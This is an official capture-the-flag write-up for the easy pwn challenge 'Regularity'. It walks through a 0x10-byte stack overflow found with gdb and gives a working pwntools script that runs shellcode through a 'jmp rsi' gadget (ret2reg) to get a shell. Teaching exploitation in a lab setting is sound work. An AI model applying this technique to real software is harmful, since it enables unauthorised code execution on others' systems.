



    	<font size="10">Regularity</font>

​		6<sup>th</sup> May 2024

​		Prepared By: ir0nstone

​		Challenge Author(s): ir0nstone

​		Difficulty: <font color=green>Easy</font>

​		Classification: Official

 


# Synopsis

Regularity is an Easy pwn challenge that involves performing a ret2reg to run custom shellcode and pop a shell.

# Description

Nothing much changes from day to day. Famine, conflict, hatred - it's all part and parcel of the lives we live now. We've grown used to the animosity that we experience every day, and that's why it's so nice to have a useful program that asks how I'm doing. It's not the most talkative, though, but it's the highest level of tech most of us will ever see...

## Skills Required

- Basic stack exploitation knowledge

## Skills Learned

- ret2reg
- shellcoding

# Enumeration
We are given the executable file `regularity` and a fake `flag.txt` for testing. Running `pwn checksec regularity`, we can see that there are no protections:


In fact, if we run `ldd checksec`, we can see that it is **statically linked**:


There's no NX, so we can run our own shellcode. Let's try running it:


It takes in our input and exits. Great.

Let's move on and disassemble the binary.

## Disassembly

Opening it up in binary ninja (or any disassembler of choice), we can go straight to `_start`:



We see that the binary calls `write`, `read` then `write` again. The parameters are clearly labelled. Once that's complete, it pushes the address of `exit` to RSI and then runs `jmp rsi` to exit gracefully using the `exit` syscall. Let's check out `write` and `read`:



Nothing of note here - just calls the `write` syscall. Now for `read`:



Here is a vulnerability! It subtracts `0x100` from RSP to make space for a buffer. It then calls the `read` syscall to read to that buffer. The `count` passed to `read`, however, is `0x110`! This results in `0x10` bytes of overflow; that is the only vulnerability. But what can we do with this?

# Solution
The stack is executable, so shellcode is an excellent idea. However, ASLR is enabled, so if we run the program multiple times our shellcode will be located at different addresses. Not ideal! We have to find a better way.

If we input a long string of `A` characters break at the `ret` in `read` (address `0x40106e`), we can observe where the string is loaded:

```gdb
$ gdb -q regularity
pwndbg> b *0x40106e
pwndbg> r
Hello, Survivor. Anything new these days?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x000000000040106e in read ()

pwndbg> x/10gx $rsp-0x100
0x7fffffffdde8:	0x4141414141414141	0x4141414141414141
0x7fffffffddf8:	0x4141414141414141	0x4141414141414141
0x7fffffffde08:	0x4141414141414141	0x4141414141414141
0x7fffffffde18:	0x4141414141414141	0x0000000a41414141
0x7fffffffde28:	0x0000000000000000	0x0000000000000000
```

The buffer is located at `0x7fffffffdde8`. Could it possibly be that a register points there?

```gdb
pwndbg> info reg
rax            0x3d                61
rbx            0x0                 0
rcx            0x401067            4198503
rdx            0x110               272
rsi            0x7fffffffdde8      140737488346600
rdi            0x0                 0
rbp            0x0                 0x0
rsp            0x7fffffffdee8      0x7fffffffdee8
r8             0x0                 0
r9             0x0                 0
r10            0x0                 0
r11            0x206               518
r12            0x0                 0
r13            0x0                 0
r14            0x0                 0
r15            0x0                 0
rip            0x40106e            0x40106e <read+35>
eflags         0x206               [ PF IF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
```

It does! RSI points there!

But what can we do with this? Well, as we previously observed, there is a `jmp rsi` gadget present in the binary which is used to jump to `exit`. If we overwrite the return pointer with the address of `jmp rsi`, it will jump to our shellcode!

## Exploit
The solution looks like this:

```python
from pwn import *

elf = context.binary = ELF('../challenge/regularity', checksec=False)
p = process()

JMP_RSI = next(elf.search(asm('jmp rsi')))

payload = flat({
    0:      asm(shellcraft.sh()),
    256:    JMP_RSI
})

p.sendlineafter(b'days?\n', payload)
p.interactive()
```

Boom - we get a shell!